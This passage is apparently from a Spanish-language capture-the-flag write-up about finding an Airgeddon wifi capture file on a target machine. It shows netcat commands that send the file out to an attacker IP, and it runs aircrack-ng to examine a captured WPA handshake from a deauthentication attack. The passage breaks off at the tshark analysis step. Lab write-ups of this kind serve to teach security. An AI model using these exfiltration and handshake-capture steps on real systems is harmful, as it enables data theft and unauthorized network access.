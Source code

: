 Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros `find \-type f` encontramos un fichero 
**captured.cap** 

Vamos a transferir el fichero captured.cap a nuestro equipo de atacante

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > captured.cap
    ```

1. En el contenedor

    ```bash
    nc 10.10.14.28 443 < captured.cap
    ```

Sabiendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el **captured.cap** con la utilidad **aircrack-ng**.

```bash
aircrack-ng captured-cap
```

```{r, echo = FALSE, fig.cap="aircrack-ng sobre airgeddon capture", out.width="90%"}
    
```
![aircrack-airgeddon](/assets/images/aircrack-airgeddon.png)

Se ve un ESSID que se llama `To_cl0se_to_th3_Sun` que parece turbio, y un handshake que significa que alguien a esperado que una victima se connecte
o reconecte tras un ataque de deautentificacion y a recuperado el hash de autentificacion.

Analizando la captura con **tshark** se ve que a sido un ataque de deautentificacion

